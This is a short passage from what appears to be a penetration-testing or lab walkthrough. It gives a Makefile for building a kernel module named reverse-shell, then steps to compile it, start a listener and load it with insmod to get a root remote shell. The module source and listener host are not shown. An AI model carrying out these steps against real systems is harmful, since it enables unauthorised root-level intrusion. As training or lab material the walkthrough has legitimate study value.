 Create a Make file to compile a kernal module.

```c
obj-m +=reverse-shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

**Step 5:** Make the kernel module.

![](Images/Pasted%20image%2020210628141118.png)

**Step 6:** Start Listner

**Step 7:** # insmod reverse-shell.ko

![](Images/Pasted%20image%2020210628141307.png)